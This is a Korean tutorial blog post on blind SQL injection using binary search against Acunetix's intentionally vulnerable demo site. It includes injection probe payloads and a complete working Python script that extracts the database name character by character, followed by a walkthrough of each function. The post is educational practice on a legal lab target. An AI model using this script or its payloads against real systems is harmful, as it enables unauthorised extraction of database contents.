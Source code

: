 ```yaml
---
title: Blind SQLi With Binary Search & Python
date: 2022-11-03
author: glasses96
categories: [WEB]
tags: [SQL Injection, Binary Search]
pin: true
math: true
mermaid: true
---
```


> **이번에는 Binary Search를 이용하여 DB를 추출할 수있는 방법을 알아봅시다.**
{: .prompt-info }

----
## Binary Search
Binary Search란 이진탐색 알고리즘이라 하며 <span style="color:#9999FF">정렬된 데이터</span>에서  검색 범위를 줄여 나가면서 원하는 데이터를 검색하는 알고리즘 입니다.


![Binary Search 알고리즘](/assets/post/3/1.gif)

------
## Contain DB Name
test는 [acunetix의 취약한 페이지](http://testphp.vulnweb.com/)로 진행을 하였습니다.

### Step 1. Find Blind SQLi point
제일 먼저 Blind SQLi가 가능한 포인트를 찾아야 합니다.

참인 쿼리( <span style="color:#9999FF"> +and+1=1 </span> ) 를 넣었을때 Posters 의 내용이 확인이 가능합니다.

![참](/assets/post/3/2.png)

반면 거짓인 쿼리( <span style="color:#9999FF"> +and+1=2 </span> ) 를 넣었을때 Posters 의 내용이 확인이 불가능합니다.
![거짓](/assets/post/3/3.png)

### Step 2. 스크립트 만들기
<span style="color:#9999FF"> 파이썬 </span> 을 이용하여 DB Name을 가져오는 스크립트를 만들어 봅시다.

```python
#coding: UTF-8
import argparse
import requests

class colors:
    BLACK = '\033[30m'
    RED = '\033[31m'
    GREEN = '\033[32m'
    YELLOW = '\033[33m'
    BLUE = '\033[34m'
    MAGENTA = '\033[35m'
    CYAN = '\033[36m'
    WHITE = '\033[37m'
    UNDERLINE = '\033[4m'
    RESET = '\033[0m'
    
def DashBoard(suwon,url,DB_NAME):
    screenDashboard = '''
    =====================================================
    {0}
    SQL Injection Binary Search
    =====================================================

    [-] Target IP : {1}
    [!] Find DB NAME : {2}
    '''.format(suwon,url,DB_NAME)
    print(screenDashboard)

def http(query):
    url = "http://testphp.vulnweb.com/listproducts.php?cat="+query
    #cookie = {"보통 로그인 상태에서는 세션 유지를 위해 쿠키를 보내지만 여기는 없음"}
    res = requests.get(url=url)
    
    html = res.text
    if(html.find('The shore')>0): #Blind SQLi를 통해 참과 거짓을 구분할 문자
        return 1
    else:
        return 0

def BinarySearch(min,max,query):
    mid= (min+max)//2
    bresult = http(query + ">" + str(mid) + " THEN 1 ELSE 2 END))")
    if((max-min)<=1):
        if(bresult):
            return max
        else:
            return min
    if(bresult):
        return BinarySearch(mid,max,query)
    else:
        return BinarySearch(min,mid,query)



DB_length_Query = "1 and 1=(SELECT (CASE WHEN (SELECT LENGTH(DATABASE())) "
DB_length = BinarySearch(1,100,DB_length_Query)
DB_NAME_result = ""
for pnum in range(1, DB_length+1):
    DB_NAME_query = "1 and 1=(SELECT (CASE WHEN (SELECT ASCII(SUBSTR(DATABASE()," + str(pnum) + ",1)))"
    DB_NAME = BinarySearch(1, 200, DB_NAME_query)
    DB_NAME_result += chr(DB_NAME)

suwon = colors.BLUE+"SUWON "+colors.RESET+colors.WHITE+"SAMSUNG "+colors.RESET+colors.RED+"BLUE WINGS"+colors.RESET
url = "http://testphp.vulnweb.com/listproducts.php"
DashBoard(suwon,url,DB_NAME_result)




```

### Step 3. 결과 확인
스크립트를 돌려 결과를 확인해봅시다. DB이름이 <span style="color:#9999FF"> `` acuart ``</span>가 추출된 것을 볼 수 있습니다. 
![DB이름]((/assets/post/3/3.png))








---
## 스크립트 분석
작성한 스크립트를 분석 하나씩 분석을 해봅시다.

### Dashboard() 
DashBoard 함수는 URL과 DB_NAME를 출력해주는 함수입니다.
```python
def DashBoard(suwon,url,DB_NAME):
    screenDashboard = '''
    =====================================================
    {0}
    SQL Injection Binary Search
    =====================================================

    [-] Target IP : {1}
    [!] Find DB NAME : {2}
    '''.format(suwon,url,DB_NAME)
    print(screenDashboard)
```

### http() 
http 함수는 url에 쿼리 request를 요청하고 보낸 결과에 따라 참이면 1 거짓이면 0를 반환하는 함수입니다.
```python
def http(query):
    url = "http://testphp.vulnweb.com/listproducts.php?cat="+query
    #cookie = {"보통 로그인 상태에서는 세션 유지를 위해 쿠키를 보내지만 여기는 없음"}
    res = requests.get(url=url)
    
    html = res.text
    if(html.find('The shore')>0): #Blind SQLi를 통해 참과 거짓을 구분할 문자
        return 1
    else:
        return 0
```

### BinarySearch() 
BinarySearch 함수는 입니다. 받아온 query와 부족한 query를 합쳐 http()함수로 보내줍니다.
min,max 인자를 받는데 <span style="color:#9999FF"> min과 max </span>는 ascii를 찾기 위해 사용합니다. <span style="color:#9999FF"> 두개의 차이가 1이하이면 해당 ASCII를 찾은 것이고 그게 아니라면 재귀를 합니다. </span>
```python
def BinarySearch(min,max,query):
    mid= (min+max)//2
    bresult = http(query + ">" + str(mid) + " THEN 1 ELSE 2 END))")
    if((max-min)<=1):
        if(bresult):
            return max
        else:
            return min
    if(bresult):
        return BinarySearch(mid,max,query)
    else:
        return BinarySearch(min,mid,query)
```

### 메인 코드 
메인 코드는 <span style="color:#9999FF"> DB_length_query </span>를 <span style="color:#9999FF"> BinarySeach </span>함수로 보내 DB의 길이를 알아냅니다.
알아낸 DB길이(6) 만큼 for문을 돌려 <span style="color:#9999FF"> DB_NAME_query, DATABASE(), SUBSTR, ASCII() </span> 이용하여 한글자 씩 추출합니다. 
추출된 글자는 result 변수에 저장되어 <span style="color:#9999FF"> Dashboard </span> 함수에 전달되어 DB 이름을 출력합니다. 
```python
DB_length_Query = "1 and 1=(SELECT (CASE WHEN (SELECT LENGTH(DATABASE())) "
DB_length = BinarySearch(1,100,DB_length_Query)
DB_NAME_result = ""
for pnum in range(1, DB_length+1):
    DB_NAME_query = "1 and 1=(SELECT (CASE WHEN (SELECT ASCII(SUBSTR(DATABASE()," + str(pnum) + ",1)))"
    DB_NAME = BinarySearch(1, 200, DB_NAME_query)
    DB_NAME_result += chr(DB_NAME)

suwon = colors.BLUE+"SUWON "+colors.RESET+colors.WHITE+"SAMSUNG "+colors.RESET+colors.RED+"BLUE WINGS"+colors.RESET
url = "http://testphp.vulnweb.com/listproducts.php"
DashBoard(suwon,url,DB_NAME_result)
```

-----
## 후기
공부를 더 열심히 하여 파이썬 스크립트를 잘 만들고 싶다 끝!